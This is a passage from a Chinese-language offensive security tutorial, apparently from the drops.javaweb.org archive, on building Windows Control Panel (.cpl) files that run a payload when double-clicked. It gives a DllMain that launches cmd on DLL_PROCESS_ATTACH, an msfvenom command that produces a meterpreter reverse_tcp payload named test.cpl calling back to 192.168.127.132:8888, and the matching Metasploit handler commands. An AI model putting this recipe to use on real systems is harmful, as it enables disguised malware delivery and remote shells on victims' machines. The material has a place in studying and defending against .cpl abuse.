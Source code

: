 **注：**  
函数注释的语言为斯洛文尼亚语，但不影响我们的程序开发  
模板下载后可直接编译出一个cpl文件，双击正常执行

4、简单粗暴的方式制作cpl文件
----------------

新建一个标准dll工程，在`DLL_PROCESS_ATTACH`中添加payload 相关代码之下：

```
#include "Windows.h"
BOOL APIENTRY DllMain( HANDLE hModule, 
                       DWORD  ul_reason_for_call, 
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
            WinExec("cmd", SW_SHOW);
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}

```

编译后生成的dll文件后缀名改为cpl即可

如图

![Alt text](http://drops.javaweb.org/uploads/images/e7c8023f6d819e987f2458dfd5bb42a84b1c5d63.jpg)

点击后弹出cmd，但是退出后会弹框提示程序兼容性问题  
如果是管理员权限的cmd，运行的程序结束后就不会弹框  
**(此问题的解决方法放在后面介绍)**

0x03 测试
=====

由以上内容可推断只要将payload写在DllMain()函数中，就可以直接修改dll后缀名为cpl，然后通过双击来运行  
所以自然而然的想到了测试一下meterpreter是否支持这种方式

**生成test.cpl：**

```
msfvenom -p windows/meterpreter/reverse_tcp -b '\x00\xff' lhost=192.168.127.132 lport=8888 -f dll -o test.cpl

```

**msf：**

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.127.132
set LPORT 8888
exploit

```
